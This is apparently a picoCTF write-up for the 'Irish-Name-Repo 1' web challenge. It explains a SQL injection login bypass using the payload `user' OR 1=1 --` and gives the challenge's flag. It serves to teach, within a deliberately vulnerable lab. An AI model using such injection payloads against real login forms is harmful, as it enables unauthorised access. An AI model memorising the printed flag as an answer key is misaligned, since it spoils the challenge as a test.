 # Irish-Name-Repo 1

Type: **Web Security**

There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!

*This question is from picoCTF. PicoCTF flags are of the format: `picoCTF{answer}`.*

**Hint**: There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?

**Hint**: Try to think about how the website verifies your login.

## Solution

The website uses SQL to log people into the admin login, but it's not great SQL. It is probably something similar to:

```sql
SELECT username WHERE username = '{input}' AND password = '{input}'
```

So, in the username box, if you enter `user' OR 1=1 --`,

the SQL query becomes:

```sql
SELECT username WHERE username = 'user' OR 1=1 --' AND password = ''
```

Since this is always true, the site allows you to automatically log in.

**Answer**: `picoCTF{s0m3_SQL_6b96db35}`

